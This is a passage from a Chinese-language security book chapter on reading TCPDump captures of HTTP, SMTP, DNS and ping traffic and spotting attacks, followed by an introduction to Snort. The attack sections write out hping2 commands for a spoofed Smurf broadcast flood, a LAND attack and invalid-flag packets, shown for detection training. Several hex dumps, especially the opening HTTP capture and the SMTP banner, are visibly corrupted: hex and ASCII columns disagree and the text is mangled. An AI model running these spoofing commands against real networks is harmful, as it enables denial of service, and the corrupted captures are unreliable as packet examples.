0x0020: 0302 11d4 0050 0c9b 1ea0 9627 33f8 801b ....P.....'3...
0x0030: 16d0 4915 0000 0101 080a 0eeb 340c 4eb4 ...I......4.N.
0x0040: 50f5 4745 5420 2f20 4854 5450 2f31 2e30 P.GET.HTTP/1.0
0x0050: 0d0a 486f 7374 3a20 7777 7772 6272 6169 ..Host:.www.brai
0x0060: 6e67 6961 2e6f 7267 0d0a 4163 6570 7420 nea.org..Accept
0x0070: 3a20 7465 7874 2f68 746d 6c2c 2074 6578 :.text/html,.tex
0x0080: 742f 7061 696e 742c 2061 7070 6c69 6361 t/paint,.applica
0x0090: 7469 6f6e 2f6d 7377 6f72 642c 2061 7070 tion/msword,.app
0x00a0: 6c69 6361 7469 6f6e 2f70 6466 2c20 6170 lication/pdf,.ap
0x00b0: 706c 6963 6174 696f 6e2f 6f63 7465 7420 plication/octet-
0x00c0: 7374 7265 616d 2c20 6170 706c 6963 6174 stream,.applicat
0x00d0: 696f 6e2f 782d 7472 6f66 662c 2061 7070 ion/x-troff,.app
0x00e0: 6170 6c69 6361 7469 6f6e 2f 7274 6620 application/rtf,
0x00f0: 6369 6f6e 2f70 6f73 7473 6372 6970 742c cion/postscript,
0x0100: 6e2e 2f2f 3b22 2e2a 2c2e 2a20 3b71 3d30 n..//;;.. .;q=0
0x0110: 2e2c 2e2f 3b24 2c2e 2a2a 3b24 2c 20 6163 c.,./;$. .**;.$ .ac
0x0120: 6365 7074 2d65 6e63 6f64 696e 673a 2032 cept-encoding: 2
0x0130: 677a 6970 2c20 636f 6d70 7265 7373 2e67 zip,.compress.g
0x0140: 686f 7374 3a20 7465 7374 2e65 7861 6d70 host:.test.examp
0x0150: 6c65 2e63 6f6d 0d0a 5573 6572 2d41 6765 le.com..User-Age
0x0160: 6e74 3a20 4c69 6e75 7820 322e 342e 340d nt:.Linux.2.4.4.
0x0170: 0a53 534c 2f31 2e30 2e38 0a50 4f53 542e .SSL/1.0.8.POST.
0x0180: 436f 6e74 656e 742d 4c65 6e67 7468 3a20 Content-Length:
0x0190: 302c 2043 6f6e 7465 6e74 2d74 7970 653a 0,.Content-type:
0x01a0: 206d 756c 7469 7061 7274 3b20 626f 756e .multipart;.boun
0x01b0: 6461 7279 3d2d 2d2d 2d2d 2d2d 2d2d 2d2d dary:----------
0x01c0: 2d2d 2d2d 2d2d 2d2d 2d34 3434 3434 3434 ------------444444
0x01d0: 3434 3434 3434 342e 0d0a 436f 6e74 656e 444444444..Conten
0x01e0: 742d 4469 7370 6f73 6974 696f 6e3a 2074 t-Disposition: t
0x01f0: 6578 7420 6e61 6d65 3d22 4d69 6d65 4374 xt.name="MimeCt
0x0200: 7473 4368 6172 7365 7473 6361 7273 6574 tsCharset;charset
```

```
18:18:52.039595 IP (tos 0x0, ttl 48, id 25346, offset 0, flags [DF], \
            length: 52) test.example.com.www > client.braingia.org.4564: \
            [tcp sum ok] 1:1(0) ack 462 win 6432 <nop,nop,timestamp \
            1320440059 250295308>
```

```
0x0000: 00e0 0090 2741 78f0 0800 4500 ...3...'Ax...E.
0x0010: 0034 6302 4000 306e 0db0 1b5d 0302 4088 .4c@...n.]..@
0x0020: 010a 0050 11d4 9627 33f8 0c9b 206d 8010 ...P..34...m...
0x0030: 1920 6799 0000 0101 080a 4eb4 50fb 0eeb ..g......N.P...
0x0040: 340c              4.
```

```
18:18:52.047021 IP (tos 0x0, ttl 48, id 25347, offset 0, flags [DF], \
            length: 1500) test.example.com.www > client.braingia.org.4564: \
            . 1:1449(1448) ack 462 win 6432 <nop,nop,timestamp \
            1320440059 250295308>
```

```
0x0000: 00e0 1833 2ee8 0090 2741 78f0 0800 4500 ...3...'Ax...'E.
0x0010: 05dc 6303 4000 3006 d807 455d 032c c0a8 ...C.@...E]...
0x0020: 010a 0050 11d4 9627 33f8 0c9b 206d 8010 ...P..'3....m.
0x0030: 1920 b9f7 0000 0101 080a 4eb4 50fb 0eeb ..N.P...
0x0040: 340c 4854 5450 2f31 2e31 2032 3030 204f 4.HTTP/1.1.20.O
0x0050: 4b0d 0a44 6174 653a 2054 7565 2c20 3237 K.Date:'Tue',.27
0x0060: 204a 756e 2032 3030 3420 3233 3a31 3a30 .Jun.2004.23:1:0
0x0070: 3030 2047 4d54 0d0a 5365 7276 6572 3a20 00.GMT..Server: :
0x0080: 4170 6163 6865 2f31 2e33 2e32 202855 Apac he/1.3.26. (U
0x0090: 6e69 7829 2e44 6561 6e2e47 4e55 00..GNU
0x00a0: 4c69 6e75 78206d 6f64 6572 742f 302e 3131 Linux mod perl/0.11
0x00b0: 2e31 3120 6d6f 645f 7065 726c 2f31 2e32 .mod_perl/1.2
0x00c0: 360d 0a43 6f6e 6e65 6374 696f 6e3a 2063 .Connection: c
0x00d0: 6c6f 7365 0d0a 436f 6e74 656e 742d 5479 .lose. Content-Ty
0x00e0: 7065 3a20 7465 7874 2f68 746d 6c3b 2063 pe.text/html;.c
0x00f0: 6861 7273 6574 3d69 736f 3b38 3835 392d harset=iso;8859-
```


请注意，此输出包含一个实际的请求（参见第一个数据包，靠近 `GET / ..HTTP/1.0` 的位置），还包含来自 Web 服务器响应的一部分。所有这些流量都是明文，因为 HTTP 未加密。此输出同时包含十六进制和 ASCII。要获取仅包含 ASCII 的输出，请从命令中移除 `-x` 和 `-X`，并用单个 `-A` 替换它们。我个人认为，在某些情况下，双十六进制和 ASCII 输出很有帮助。

这就是使用 `TCPDump` 捕获 HTTP 流量的全部内容。该命令明显的改进方法是扩展表达式，以查找特定的源或目标。理解这一点很重要：按照给出的命令，只能找到端口 `80` 上的流量。如果您在另一个端口上运行 HTTP 流量，请用该端口替换（或除了）示例命令中找到的端口。

## 捕获 SMTP 会话

捕获 SMTP 会话与捕获 HTTP 会话并无不同。从您想使用的基本 `TCPDump` 选项开始，然后构建一个表达式来获取合适类型的数据，包括协议、端口以及源或目标主机。例如，以下是捕获端口 `25` 流量的简单示例，并附带我惯用的 `TCPDump` 选项：

```
tcpdump -vv -x -X -s 1500 'port 25'
```

正如您可能预期的那样，TCP 三次握手再次出现：

```
20:40:08.638690 murphy.debian.org.45772 > test.example.com.smtp: \\
S [tcp sum ok] 1485971964:1485971964(0) win 5840 <mss 1460, \\
sackOK,timestamp 795074473 0,nop,wscale 0> (DF) \\
(ttl 57, id 65109, len 60)
0x0000 4500 003c fe55 4000 3906 deae 9252 8a06 E..<.U@9.....R..
0x0010 455d 0302 b2cc 0019 5892 21fc 0000 0000 E]......X.!....
0x0020 a002 16d0 8ffe 0000 0204 05b4 0402 080a
0x0030 2f63 dfa9 0000 0000 0103 0300 /c.......
```

```
20:40:08.638769 test.example.com.smtp > murphy.debian.org.45772: S \\
[tcp sum ok] 2853594323:2853594323(0) ack 1485971965 win 5792 \\
<mss 1460,sackOK,timestamp 1321286843 795074473,nop,wsscale 0> \\
(DF) (ttl 64, id 0, len 60)
0x0000 4500 003c 0000 4000 4006 d604 455d 0302 E.<.@...E].@.E]..
0x0010 9252 8a06 0019 b2cc aa16 64d3 5892 21fd .R........d.X..!
0x0020 a012 16a0 f5b6 0000 0204 0402 080a .........
0x0030 4ec1 3cbb 2f63 dfa9 0103 0300 N.</c....
```

```
20:40:08.640600 murphy.debian.org.45772 > test.example.com.smtp: . \\
[tcp sum ok] 1:1(0) ack 1 win 5840 <nop,nop,timestamp \\
795074473 1321286843> (DF) (ttl 57, id 65110, len 52)
0x0000 4500 0034 fe56 4000 3906 deb5 9252 8a06 E.4.V@9.....R..
0x0010 455d 0302 b2cc 0019 5892 21fd aa16 63d4 E]......X.!...d.
0x0020 8010 16d0 244c 0000 0101 080a 2f63 dfa9 ....$L......../c..
0x0030 4ec1 3cbb N.<.
```

在三次握手过程中，确实没有什么新奇的有趣内容。不过，请注意，在三次握手期间，ASCII 输出并没有太大用处。

与 HTTP 一样，在初始 TCP 握手完成后，SMTP 会话也随之展开：

```
20:40:08.683352 test.example.com.smtp > murphy.debian.org.45772: P \\
[tcp sum ok] 1:51(50) ack 1 win 5792 <nop,nop,timestamp \\
1321286848 795074473> (DF) (ttl 64, id 22639, len 102)
0x0000 4500 0066 586f 4000 4006 77db 455d 0302 E..fx@.0.0...E].fx@.]...]..
0x0010 9252 8a06 0019 b2cc aa16 64d4 5892 21fd .R........d.X..!
0x0020 8018 16a0 bd07 0000 0101 080a 4ec1 3cc0 .........N<
0x0030 2f63 dfa9 3232 3020 6466 7730 2e69 6367 /c..22 0df fw0.ei cg
0x0040 6d65 6469 611e 636f 6d20 4553 5020 204c mpe.dia.co m ESP. ll
0x0050 506f 7374 6669 7820 2844 6562 6961 6e2f Postfix. (Debian/
0x0060 474e 5529 000a GNU)
```

```
20:40:08.684581 murphy.debian.org.45772 > test.example.com.smtp: . [tcp sum ok]
1:1(0) ack 51 win 5840 <nop,nop,timestamp 795074478 1321286848> (DF) (ttl 57, i
d 65111, len 52)
0x0000 4500 0034 fe57 4000 3906 deba 9252 8a06 E.4.W@9.....R..
0x0010 455d 0302 b2cc 0019 5892 21fd aa16 6506 E]......X.!...e.
0x0020 8010 16d0 2410 0000 0101 080a 2f63 dfa9 ....$......./c..
0x0030 4ec1 3cc0 N<.
```

```
20:40:08.685428 murphy.debian.org.45772 > test.example.com.smtp: P [tcp sum ok]
1:25(24) ack 51 win 5840 <nop,nop,timestamp 795074478 1321286848> (DF) (ttl 57,
id 65112, len 76)
```

## 捕获 SSH 会话

虽然实际上无法捕获 SSH 会话，但你可以查看协议中连接建立的部分。由于 SSH 是加密的，因此在实际会话期间无法查看凭据或其他数据。不过需要注意的是，如果你能够访问服务器的私钥，理论上你可以解密 SSH 连接的内容。这已远远超出了本文的范围。

如果你希望查看 SSH 正常连接的样子，我将捕获 SSH 连接（包括建立过程）作为读者的练习留给你们。

## 捕获其他基于 TCP 的协议

捕获其他基于 TCP 的协议的过程与示例中展示的类似。例如，可以捕获 POP3 连接并捕获整个数据流，因为 POP3 与 SMTP 一样在传输过程中不加密。有一个协议特别值得关注，因为它长期以来一直让网络管理员感到困惑。该协议是 FTP。

FTP 使用两个 TCP 端口，`20` 和 `21`。端口 `21` 通常用于命令，有时被称为控制通道。FTP 中的端口 `20` 用于数据传输，有时恰当地被称为数据通道。因此，如果你希望使用 `TCPDump` 捕获 FTP 流量，你需要同时抓取端口 `20` 和 `21` 才能看到所有内容。

过去几年出现的一个趋势是，某些协议使用非标准端口来绕过防火墙以及数据包捕获和过滤。此类程序（包括许多点对点软件）在数据包捕获期间可能有点难以发现，因为会话期间的数据大多是二进制的，因此不可读。

## 捕获 DNS 查询

`TCPDump` 处理 DNS 查询的方式与处理普通 TCP 数据包略有不同。相比于必须使用 `-s` 选项增加捕获长度，仅从初始数据包结果行就可以获取更多信息。例如，考虑以下对一个简单 DNS 查询的跟踪，该查询正在寻找名为 `www.braingia.org` 的主机的 IP 地址：


```
21:18:39.289121  192.168.1.10.1514  > 192.168.1.1.53: 60792+ A?
www.braingia.org.  (34)  (DF)
21:18:39.289568  192.168.1.1.53  > 192.168.1.10.1514: 60792*- 1/2/
2  A  192.168.1.50  (118)  (DF)
```

在数据包跟踪中，我们看到源主机 `192.168.1.10` 在一个临时端口上与目标地址 `192.168.1.1` 的 53 端口进行通信。给出了一个查询 ID 号，在本例中为 60792。你看到查询 ID 号后面跟着一个 `+`。这个符号表示发出地址的实体请求对此查询进行递归解析。跟踪行中的 `A?` 表示这是一个地址查询。查询的是 `www.braingia.org`，如所示，查询的大小为 34 字节，不包括 IP 或 UDP 开销。

答案很快到来，正如我们在跟踪的下一行中看到的，源地址现在变成了 `192.168.1.1`，正在与目标地址 `192.168.1.10` 通信。如你所见，答案包含在同一个查询 ID 60792 中；然而，这次多出了两个字符，`*` 和 `-`。在响应中，`*` 表示这是一个权威答案，而 `-` 表示递归可用但未设置。响应的下一部分 `1/2/2` 表示答案记录的数量（1）、名称服务器记录的数量（2）和附加记录的数量（2）。本例中给出的第一个答案类型为 A，即 `192.168.1.50`。最后，响应的大小给出为 118 字节。

## 捕获 PING

虽然这可能看起来人畜无害，但 ICMP（ping 背后的协议）经常被用作攻击主机或制造混乱的手段。因此，作为安全分析师、管理员或好奇的旁观者，你应该知道通过 `TCPDump` 查看 ICMP 的一些正常活动符合你的最大利益，以便你以后可能能够发现异常。

我要大胆地说，ICMP 最常用于 ping 提供的简单 Echo Request（回声请求）和 Echo Reply（回声回复）。然而，ICMP 还可以被用于更多用途，不仅仅是包括通知快速发送者何时减速（源抑制，Source Quench）、重定向到其他主机（重定向，Redirect）以及许多其他领域。有关 ICMP 的更多信息请参考第 4 章，或者，一如既往地，参考 ICMP 的原始 RFC 以获取该协议的权威信息。

## 11.3.2 通过 TCPDump 视角看攻击

你通过 `TCPDump` 看到了正常的 TCP 和 UDP 数据包跟踪的样子，但你怎么知道某人或某物是否在异常行事？不幸的是，发现恶意活动并不那么容易。隐藏在正常数据包跟踪中的可能是某人正在尝试对你的服务器发起攻击的迹象。攻击者显然会试图掩盖其活动，使检测变得更加困难。你不仅要穿梭于数据包跟踪中的所有正常流量，还必须大海捞针般地搜索，以发现可能是攻击尝试甚至正在进行的攻击。

回顾第 10 章“入侵检测工具”，并非所有超出正常活动的行为都可以称为攻击。有些是设备故障或配置错误的结果。更常见的是，在数据包跟踪中发现的异常活动是由于某种形式的侦察。而绝大多数的侦察工作都是通过自动化完成的。攻击者不会花费许多徒劳的个小时去寻找易受攻击的主机，而是会自动化这一过程，并让程序在发现有趣的主机时通知他们。

当然，自动化规则也存在例外。攻击可能是针对你的服务器或网络的定向活动的结果。在攻击之前，通常会发生一些手动侦察。这可能包括准攻击者手动构造或创建数据包，以试图利用你服务器或网络中可能的漏洞。然而，更常见的是，攻击者会拥有一些自动化侦察数据，指引其将精力集中在你的方向。如果自动扫描提醒攻击者你的某个服务器可能对特定类型的攻击易受攻击，你可能会发现你的主机或整个子网都在攻击者的瞄准镜中。

让主机保持易受攻击或使主机看起来易受攻击，然后观察攻击，这是蜜罐背后的前提。蜜罐是一个在攻击者看来易受攻击的主机或设备，因此看起来像是攻击的目标。其思想在于，通过观察攻击者利用漏洞的方法，或者观察他们在攻陷主机后所做的行为，观察者可以从中学习并防御此类活动。

如果说已经给出的所有可能导致看到异常活动的原因还不够，这里还有一个：你还会遇到可能看似攻击的意外连接。换句话说，有时某人只是试图连接其服务器时打错了 IP 地址。任何曾接电话却发现自己被错误拨号的人都能理解这种情况。

总之，异常活动可能属于一些基本类别：

- 自动或半自动侦察扫描
- 定向攻击
- 配置错误的设备
- 错误号码
- 故障设备

考虑到这些类别，本节将研究一些异常的数据包跟踪，或在正常情况下你不应该看到的跟踪。本节绝不包含所有可能构造和异常的数据包。希望这一节能让你理解在进行调查时需要寻找的某些类型的事项。

### 常规扫描 (NMAP)

有时攻击者会扫描你的子网或单个 IP 地址以查找开放端口。这种扫描可以是寻找服务的无害尝试，也可以是用于攻击的侦察。很多时候，这些扫描完全是自动化的，攻击者设置一个或多个机器人（bots）自动扫描可被利用的软件易受攻击版本。

此模拟是使用 `nmap` 程序通过以下命令行创建的：

```
nmap -sT 192.168.1.2
```

端口扫描的 `TCPDump` 捕获结果如下所示；请注意，由于 `nmap` 扫描了超过 1,650 个端口，我已截断输出。为了便于解释，我也将捕获数据进行了分段。

`Nmap` 扫描以向目标主机发送 ICMP 回声请求开始，如下所示。但请注意，运行 `nmap` 扫描的人可以禁用此 ICMP 交互，因此它并不总会显示：

```
12:31:21.834284 IP 192.168.1.10 > 192.168.1.2: icmp 8: echo request seq 27074
12:31:21.834508 IP 192.168.1.2 > 192.168.1.10: icmp 8: echo reply seq 27074
```

接下来 `nmap` 查找 80 端口，即默认的 HTTP 端口。请注意，扫描源自扫描器一侧的一个临时端口，目标是接收方的 80 端口。在这种情况下，接收主机 `192.168.1.2` 正在监听 80 端口，并发送一个 TCP 响应回到扫描主机，其中设置了 TCP RST 标志并设置了序列号：

```
12:31:21.834318 IP 192.168.1.10.60034 > 192.168.1.2.80: . ack 2624625246 win 4096
12:31:21.834363 IP 192.168.1.2.80 > 192.168.1.10.60034: R 2624625246:2624625246 (0) win 0
```

接着，`nmap` 查找 telnet 端口（tcp/23）。请注意这与前一个扫描之间的区别。除了端口不同外，响应数据包也不同。在这种情况下，接收主机未监听 TCP 端口 23，因此它响应一个设置了 TCP RST 标志但将 TCP 序列号设为 0 的数据包：

```
12:31:21.935005 IP 192.168.1.10.3172 > 192.168.1.2.23: S 752173650:752173650(0) win 5840 <mss 1460,sackOK,timestamp 1421906912 0,nop,wscale 0>
12:31:21.935046 IP 192.168.1.2.23 > 192.168.1.10.3171: R 0:0(0) ack 752173651 win 0
```

接下来的数据包在接收主机未监听被扫描端口这一点上，本质上与前面的 telnet 端口扫描相同：

```
12:31:21.935129 IP 192.168.1.10.3172 > 192.168.1.2.554: S 758180552:758180552(0) win 5840 <mss 1460,sackOK,timestamp 1421906912 0,nop,wscale 0>
12:31:21.935186 IP 192.168.1.2.554 > 192.168.1.10.3172: R 0:0(0) ack 758180553 win 0
12:31:21.935149 IP 192.168.1.10.3174 > 192.168.1.2.21: S 751983738:751983738(0) win 5840 <mss 1460,sackOK,timestamp 1421906912 0,nop,wscale 0>
12:31:21.935289 IP 192.168.1.2.21 > 192.168.1.10.3174: R 0:0(0) ack 751983739 win 0
12:31:21.935255 IP 192.168.1.10.3175 > 192.168.1.2.1723: S 757954867:757954867(0) win 5840 <mss 1460,sackOK,timestamp 1421906912 0,nop,wscale 0>
12:31:21.935320 IP 192.168.1.2.1723 > 192.168.1.10.3175: R 0:0(0) ack 757954868 win 0
```


最后，又发现了一个开放端口。这次开放的是 `tcp/25`，即众所周知的 `SMTP` 端口：

```
12:31:21.935381 IP 192.168.1.10.3176 > 192.168.1.2.25: S 762467904:762467904(0) win 5840 <mss 1460,sackOK,timestamp 1421906912 0,nop,wscale 0>
12:31:21.935448 IP 192.168.1.2.25 > 192.168.1.10.3176: S 2645882457:2645882457(0) ack 762467905 win 5792 <mss 1460,sackOK,timestamp 921140115 1421906912,nop,wscale 7>
```

如前所述，`nmap` 扫描还将继续扫描另外 1,650 个左右的端口。我选择节省纸张，没有在这里显示剩余的端口扫描内容。请放心，它们在很大程度上看起来与已经展示的那些类似。

你对端口扫描做出的响应取决于你的安全策略。如果我发现广泛的端口扫描，即扫描大量端口的情况，我通常会采取措施阻止该主机。然而，因为我并不全天候在电脑前，接近，但并非如此，我使用一个名为 `PortSentry` 的工具来监控此类活动。`PortSentry` 在被 Cisco 收购后，似乎已停止积极开发。你仍然可以在 `http://sourceforge.net/projects/sentrytools/` 下载 `PortSentry` 的最后一个版本。但我不会在本章中介绍该工具，因为当你读到这本书时，该工具是否还存在尚不明确。还有其他反端口扫描软件，包括 `Snort` 的一个插件。

## 斯穆夫攻击（SMURF ATTACK）

斯穆夫攻击是一种 DoS 攻击，攻击者向一个或多个广播地址发送伪造源地址的 ICMP 回声请求。伪造的源地址是攻击的接收者，它将被来自其他网络广播地址的回声回复淹没。想象一下回声回复来自 254 台主机并指向一台互联网连接较小或较慢的机器。现在想象这些回复来自 100 个网络，每个网络有 254 台主机。整个网络很快就会因接收 ICMP 回复而变得瘫痪。

以下跟踪是用 `hping2` 命令创建的：

```
hping2 -1 -a 192.168.1.2 192.168.1.255
```

在受攻击的网络中，只有一台主机响应了广播的 ping；然而，无法保证其他网络不会有大量主机响应：

```
12:57:06.871156 IP 192.168.1.2 > 192.168.1.255: icmp 8: echo request seq 0
12:57:06.871637 IP 192.168.1.8 > 192.168.1.2: icmp 8: echo reply seq 0
12:57:07.870259 IP 192.168.1.2 > 192.168.1.255: icmp 8: echo request seq 256
12:57:07.871008 IP 192.168.1.8 > 192.168.1.2: icmp 8: echo reply seq 256
12:57:08.870132 IP 192.168.1.2 > 192.168.1.255: icmp 8: echo request seq 512
12:57:08.870880 IP 192.168.1.8 > 192.168.1.2: icmp 8: echo reply seq 512
```

对于斯穆夫攻击，没有好的基于主机的防御措施。即使单个主机禁用了 ICMP 回复，带宽仍会被传入网络的所有回复消耗。

为了有效对抗斯穆夫攻击，指向广播地址的 ICMP 回声请求不得跨越路由器边界。这意味着你要依赖他人成为良好的网络公民。此外，ICMP 回声回复应尽可能在上游过滤。然而，我反对过滤 ICMP 回声回复。更好的解决方案是尽可能在上游限制回声回复的速率，同时仍允许回复，以发挥它们在故障诊断中的积极作用。

## 圣诞树攻击与 TCP 头标志（XMAS TREE AND TCP HEADER FLAGS）

圣诞树攻击之所以得名，是因为 TCP 头中的所有比特标志位都被设置了。其目的是让接收主机响应，从而造成 DoS。回忆第 4 章中提到的 TCP 标志位 `SYN`、`RST`、`ACK`、`URG` 及其他。这些位不应同时出现，如果出现则表明这是一个经过构造的数据包。

圣诞树攻击相当罕见。然而，在检查数据包时考虑 TCP 标志位是很重要的。使用无效组合设置这些标志几乎总是表明这是一个经过构造的数据包，虽然也可能在少数情况下表明软件损坏或配置错误。经过构造的数据包的目的可能从侦察到主动攻击，例如穿透防火墙的攻击不等。

下面的捕获设置了 TCP 标志 `SYN`、`FIN`、`RST` 和 `PUSH`，这些在真实数据包中绝不应该出现。它是由 `hping2` 命令创建的：

```
hping2 -SFRP 192.168.1.2
```

此捕获中有三个数据包。注意源端口递增且目的端口为 0。TCP 标志也显示出来，在这种情况下是 `SFRP`。在野外看到这种情况应立即促使入侵分析员开始根据安全策略调查这些数据包。

```
13:20:03.989780 IP (tos 0x0, ttl 64, id 2270, offset 0, flags [none], length: 40) 192.168.1.10.2687 > 192.168.1.2.0: SFRP [tcp sum ok] 925164686:925164686(0) win 512
13:20:04.989734 IP (tos 0x0, ttl 64, id 9285, offset 0, flags [none], length: 40) 192.168.1.10.2688 > 192.168.1.2.0: SFRP [tcp sum ok] 1113258177:1113258177(0) win 512
13:20:05.989731 IP (tos 0x0, ttl 64, id 26951, offset 0, flags [none], length: 40) 192.168.1.10.2689 > 192.168.1.2.0: SFRP [tcp sum ok] 2097818687:2097818687(0) win 512
```

## LAND 攻击

`LAND` 攻击是一种针对运行 `Microsoft Windows` 的计算机的 DoS 攻击。该攻击最初在 1997 年被报告影响 `Windows 95` 和 `Windows NT`。微软最终修补了这些操作系统的漏洞。然而，该漏洞在微软较新的操作系统中重新出现，包括 `Windows XP Service Pack 2` 甚至 `Windows Server 2003`。显然，此类问题重新出现对微软来说相当尴尬，尤其是因为他们已启动了无数项计划来保护其操作系统和软件。

`LAND` 攻击非常琐碎，发生在源地址和目的地址及端口被设置为接收主机且设置了 `SYN` 标志时。

`hping2` 再次提供了一种简单的测试重现方式：

```
hping2 -k -S -s 25 -p 25 -a 192.168.1.2 192.168.1.2
```

通过 `TCPDump` 的捕获如下所示。请注意源地址和目的地址及端口相同，且源端口没有递增，并且它也在临时端口之下：

```
13:42:28.079339 IP 192.168.1.2.25 > 192.168.1.2.25: S 764505725:764505725(0) win 512
13:42:29.079462 IP 192.168.1.2.25 > 192.168.1.2.25: S 2081780101:2081780101(0) win 512
13:42:30.079461 IP 192.168.1.2.25 > 192.168.1.2.25: S 390202112:390202112(0) win 512
```

### 11.3.3 使用 TCPDump 记录流量

在为一家小型互联网服务提供商咨询时，我注意到每天早上3点左右网络流量会出现一次规律且显著的峰值，持续时间从15分钟到一小时不等。我的目标是确定这次流量激增的原因。由于这种流量是规律性的且发生在非正常时段，我最初的想法是，这些流量是网络上服务器自动更新进程的结果。

网络中的大多数服务器都运行 `Debian Linux` 并使用 `apt-proxy`。这意味着只有本地的一台服务器会联系场外的 `Debian` 更新服务器以获取必要的更新。局域网内的所有其他服务器随后都会联系那台本地主服务器。这种设置极大地减少了互联网带宽的使用。

虽然主服务器肯定是一个促成因素，但我觉得每晚的基础流量不足以造成如此显著的流量激增。当我查看主服务器上的更新计划时，发现它实际上是在另一个时间段寻找更新的，因此它根本不会贡献到凌晨3点的流量峰值。我的假设得到了证实。


排除了这个原因后，我需要查看凌晨3点本身的流量。然而，我并不太愿意坚持到那个时刻醒着，如果醒着，我可能也没有精力去阅读数据包追踪记录。这时，`cron`派上用场了。通过使用`cron`触发`TCPDump`，我可以将数据包追踪捕获到文件中，以便稍后进行分析。这一点并不令人惊讶，我并没有开创什么先河，但这似乎是解决该问题的合理方案。我配置交换机将数据包复制到监控机器连接的端口，然后着手处理`TCPDump`部分。

`TCPDump`提供了一些对此类追踪非常实用的功能。第一个功能是将输出写入文件（你可以称之为记录），然后稍后读取该文件（回放）。第二个有用的功能是能够在捕获一定数量的数据包后退出。当然，我也可以使用另一种方式来停止数据包追踪，例如使用另一个`cron`任务来终止`TCPDump`捕获，但我认为使用`TCPDump`的原生功能是最快也是最简单的解决方案。

本章中我展示的所有`TCPDump`命令都使用了诸如`port 80`或`host <n>.<n>`之类的表达式。当你寻找特定且已知的流量时，表达式很有帮助。然而，当不确定具体在搜索什么时（就像本案的情况），表达式就没那么有用了。最佳选择是捕获所有内容，然后在回放期间制定过滤器。

本章中尚未涉及的两个感兴趣的`TCPDump`选项是`-w`和`-c`。`-w`选项使`TCPDump`将原始输出放入指定文件中，以便稍后可以通过`TCPDump`重新读取。生成的文件采用`TCPDump`的原生格式，因此无法被`cat`、`less`或`more`等纯文本分页器读取。`-c`选项通知`TCPDump`，在捕获`<N>`个数据包后应退出。确定正确的`<N>`值似乎是捕获过程中最困难的部分。

捕获结果需要仅向我展示关于数据包的基本信息，包括源和目的地，以及数据包中的几个位。为此，制定`TCPDump`命令相当简单：

```
/usr/sbin/tcpdump -c 25000 -w dumpfile -n
```

在此命令中，我让`TCPDump`在捕获25,000个数据包后退出，将捕获写入名为`dumpfile`的文件，并且不针对源和目的地执行DNS查询。得出此命令确实需要一定程度的测试，以查看捕获25,000个数据包需要多长时间以及捕获中包含哪些信息。测试完成后，我将该命令输入`cron`，计划如下：

```
5 3 * * * /usr/sbin/tcpdump -c 25000 -w dumpfile -n
```

也就是说，每天早上3:05都会进行捕获。然后在较清醒的时间，比如我起床的上午11点，我会查看前一晚是否确实有需要我检查的`dumpfile`的流量。如果有流量，我会登录服务器并运行一条命令来读取`dumpfile`：

```
tcpdump -r dumpfile -X -vv
```

运行此命令让我对那里存在什么类型的流量有了一个大致的了解。混合在正常流量中的是ISP较大客户之一与互联网上另一台主机之间的FTP会话。在追踪中，FTP流量是最频繁出现的数据包。另一个晚上的数据包追踪证实了这一点。我让ISP联系其客户，以确认这是否是已知活动，如果是，让客户知道他们可能会超出当月的带宽配额。

这个例子在某种程度上是安全分析师工作的典型写照。发现异常，调查异常并排除可能性，然后根据调查结果采取行动。尽管这次特定异常的根本原因最终证明不是任何形式的未经授权攻击，但调查结果使客户更加满意，因为该客户可以在超出当月带宽之前采取纠正措施。

## 11.4 使用 Snort 进行自动化入侵监控

`Snort`是一款优秀的入侵检测软件包，结合了顶尖技术与开源的可配置性。实际上，`Snort`有几种不同的运行模式，包括嗅探器模式、数据包记录器模式、入侵检测模式以及所谓的联线模式（`inline mode`）。本节的关注点是入侵检测模式。然而，联线模式也很值得注意，因为它提供了一种配置`Snort`和`iptables`协同工作的方式，以便根据`Snort`规则动态接受或丢弃数据包。就本章而言，当提到`Snort`时，我特指入侵检测模式。

在入侵检测模式下，`Snort`通过使用一系列定义异常流量的规则来工作。其中许多规则由`Snort`的制造者`Sourcefire`预先定义好供你使用。社区还提供了许多其他规则，当然，必要时你也可以编写自己的规则。`CERT`有一篇关于编写规则的好文章，标题恰如其分为“为`Snort`编写规则和理解警报”，可在`http://www.cert.org/security-improvement/implementations/i042.14.html`找到。

除了规则，`Snort`还有许多预处理器，它们使模块能够在软件入侵检测引擎处理之前查看和修改数据包。可以根据需求开发预处理器，尽管现有的预处理器也很有帮助。现有的预处理器包括两种类型的端口扫描检测器，以帮助检测并在检测到端口扫描时采取行动。还有重新组装TCP流以提供有状态分析的预处理器，以及解码RPC流量和检查HTTP流量的预处理器。其他预处理器在随`Snort`提供的文档或在线`http://www.snort.org/docs/`中有详细描述。

`Snort`通过检测和报告事件来工作。报告事件的实际过程可以通过`Snort`中的事件处理进行配置。事件处理需要基于阈值的配置。`Snort`这个高度可配置的方面有助于防止日志条目和警报泛滥。

通常，当某些`Snort`规则被触发时，你希望以某种方式得到通知。`Snort`使用输出模块，这些模块可以配置为将输出发送到各种位置。主要或最常用的输出模块是`alert_syslog`模块，它将警报发送到本地`syslog`设施。还有其他输出模块，包括`alert_fast`和`alert_full`。前者在指定文件中放入一个快速条目，后者发送整个包头连同事件消息。还有其他输出模块，有关它们的更多信息可以在`Snort`文档中找到。

一个有趣的输出模块是数据库输出模块。数据库模块使`Snort`警报能够发送到SQL数据库。使用此输出模块可以充分利用名为`ACID`的软件，该软件可以生成`Snort`中警报和事件的报告。

`Snort`拥有众多附加功能和细微之处，这使它成为最好的入侵检测软件之一，如果不是最好的话也是如此。

### 11.4.1 获取和安装 Snort

`Snort`在许多Linux发行版中作为附加包提供，大多数发行版还包括`Snort`规则，这些规则要么包含在`Snort`包中，要么作为附加包。你也可以从`http://www.snort.org/`下载`Snort`。

安装`Snort`和默认规则几乎总是应该通过安装你的发行版可用的包来完成。如果这不可行，或者可用的包不包含你希望使用的选项，你将需要从源代码编译。

`Snort`包是一个`gzip`归档文件，因此在编译前需要解压缩和解档：

```
tar -zxvf snort-<version>.tar.gz
```

解压缩和解档后，你可以`cd`进入`Snort`源目录并运行配置脚本：

```
cd snort-<version>
./configure
```

运行`configure`脚本的阶段是设置许多编译时选项的地方。要获取其中一些选项的列表，特别是用于启用对某些数据库的支持或启用其他某些功能的选项，请输入以下内容：

```
./configure -help
```

此外，`INSTALL`文档以及`<snort-source>/doc`目录中的其他文档解释了编译`Snort`源码时可用的这些及其他选项。

